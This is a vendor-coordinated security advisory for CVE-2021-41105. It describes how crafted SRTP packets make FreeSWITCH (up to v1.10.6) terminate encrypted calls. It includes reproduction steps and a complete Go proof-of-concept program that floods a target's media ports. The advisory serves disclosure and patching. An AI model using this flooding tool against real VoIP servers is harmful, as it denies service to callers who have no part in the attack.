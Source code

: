 # FreeSWITCH susceptible to Denial of Service via invalid SRTP packets

- Fixed versions: v1.10.7
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-09-freeswitch-srtp-dos
- Vendor Security Advisory: https://github.com/signalwire/freeswitch/security/advisories/GHSA-jh42-prph-gp36
- Other references: CVE-2021-41105
- Tested vulnerable versions: <= v1.10.6
- Timeline:
	- Report date: 2021-09-06
	- Triaged: 2021-09-10
	- Fix provided for testing: 2021-09-17
	- Vendor release with fix: 2021-10-24
	- Enable Security advisory: 2021-10-25

## TL;DR

When handling SRTP calls, FreeSWITCH is susceptible to a DoS where calls can be terminated by remote attackers. This attack can be done continuously, thus denying encrypted calls during the attack.

## Description

When a media port that is handling SRTP traffic is flooded with a specially crafted SRTP packet, the call is terminated leading to denial of service. This issue was reproduced when using the SDES key exchange mechanism in a SIP environment as well as when using the DTLS key exchange mechanism in a WebRTC environment.

The call disconnection occurs due to line 6331 in the source file `switch_rtp.c`, which disconnects the call when the total number of SRTP errors reach a hard-coded threshold (100):

```c
if (errs >= MAX_SRTP_ERRS) {
    // ...
    switch_channel_hangup(channel, SWITCH_CAUSE_SRTP_READ_ERROR);
}
```

## Impact

By abusing this vulnerability, an attacker is able to disconnect any ongoing calls that are using SRTP. The attack does not require authentication or any special foothold in the caller's or the callee's network.

## How to reproduce the issue

1. Prepare a FreeSWITCH instance that is publicly available and that can handle SRTP calls (`<X-PRE-PROCESS cmd="set" data="rtp_secure_media=true"/>`)
2. Prepare two SIP clients that can handle SRTP communication, such as Zoiper, and register against the FreeSWITCH instance
3. Prepare an attacker machine which has a different IP than that of the caller, callee or the FreeSWITCH instance
4. Save the below Go code and compile the application, naming it `freeswitch-srtp-dos`
5. Copy `freeswitch-srtp-dos` to the attacker machine
6. Perform a call between the agents using SRTP
7. Run the `freeswitch-srtp-dos` application against the target FreeSWITCH server: `./freeswitch-srtp-dos -ip <freeswitch_ip>`
8. Observe that when the active media ports are reached, FreeSWITCH will report "SRTP audio unprotect failed with code 21" multiple times, until the call is terminated

```go
package main

import (
	"flag"
	"fmt"
	"net"
)

func main() {
	var minport, maxport, count int
	var ip string

	flag.IntVar(&minport, "min-port", 16384, "port-range minimum value")
	flag.IntVar(&maxport, "max-port", 32768, "port-range maximum value")
	flag.IntVar(&count, "count", 200, "packet count per port")
	flag.StringVar(&ip, "ip", "", "target IPv4 address")
	flag.Parse()

	listener, err := net.ListenPacket("udp", "0.0.0.0:0")
	if err != nil {
		panic(err)
	}

	fmt.Printf("sending %d packets on each port, port range %d-%d\n",
		count, minport, maxport)

	addr := &net.UDPAddr{IP: net.ParseIP(ip)}
	for i := minport; i < maxport+1; i++ {
		fmt.Printf("\rattacking port: %d", i)
		addr.Port = i
		for j := 0; j < count; j++ {
			listener.WriteTo([]byte("\x80\x00p(\t\xcd-\x15\xfd>\\\x86A"), addr)
		}
	}
}
```

## Solution and recommendations

Upgrade to a version of FreeSWITCH that fixes this issue.

Our suggestion to the FreeSWITCH developers was the following:

> Instead of disconnecting the call, FreeSWITCH should simply ignore packets that fail message authentication or replay checks.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.


